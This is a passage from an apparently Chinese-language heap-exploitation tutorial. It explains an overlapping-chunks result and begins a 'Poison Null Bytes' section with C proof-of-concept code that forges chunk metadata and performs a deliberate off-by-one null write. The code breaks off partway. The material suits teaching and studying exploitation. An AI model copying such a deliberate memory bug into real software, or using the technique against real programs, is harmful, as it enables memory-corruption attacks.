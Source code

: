 ![overlapping_chunks2_result](../pictures/heap/overlapping_chunks2/overlapping_chunks2_result.png)

可以看到在修改了 p2 chunk 的 size 之后, free(p2 chunk),结果一同将 p3 chunk free

重新分配 p6 chunk 结果将已经分配的 p3 chunk 覆盖,修改 p6 chunk 的后 1000 字节,会修改 p3 chunk

### Poison Null Bytes

通过污染一个可分配区域的空字节

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main()
{
    uint8_t *a;
    uint8_t *b;
    uint8_t *c;
    uint8_t *b1;
    uint8_t *b2;
    uint8_t *d;

    a = (uint8_t *)malloc(0x100);
    fprintf(stderr, "a: %p\n", a);
    int real_a_size = malloc_usable_size(a);
    fprintf(stderr, "(it may be more than 0x100 because of rounding): %#x\n",
            real_a_size);

    b = (uint8_t *)malloc(0x200);

    fprintf(stderr, "b: %p\n", b);

    c = (uint8_t *)malloc(0x100);
    fprintf(stderr, "c: %p\n", c);

    uint64_t *b_size_ptr = (uint64_t *)(b - 8);

    *(size_t *)(b + 0x1f0) = 0x200;

    free(b);

    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
    fprintf(stderr, "b.size is: (0x200 + 0x10) | prev_in_use\n");
    a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

    uint64_t *c_prev_size_ptr = ((uint64_t *)c) - 2;
```
